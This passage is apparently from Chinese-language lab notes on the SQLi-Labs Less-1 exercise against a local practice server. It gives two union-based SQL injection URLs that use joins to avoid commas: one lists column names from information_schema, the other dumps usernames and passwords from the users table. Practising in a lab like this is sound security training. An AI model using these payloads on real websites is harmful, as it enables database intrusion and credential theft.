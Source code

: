 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607153112525.png" alt="image-20230607153112525" style="zoom: 33%;" />

#### 爆字段

```
http://192.168.231.129:9001/Less-1/?id=0' union select * from (select 1)a join (select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users')b join (select 3)c%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607153154738.png" alt="image-20230607153154738" style="zoom: 33%;" />

#### 拖库

```
http://192.168.231.129:9001/Less-1/?id=0' union select * from (select 1)a join (select group_concat(username,':',password) from users)b join (select 3)c#
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230607153300026.png" alt="image-20230607153300026" style="zoom: 33%;" />
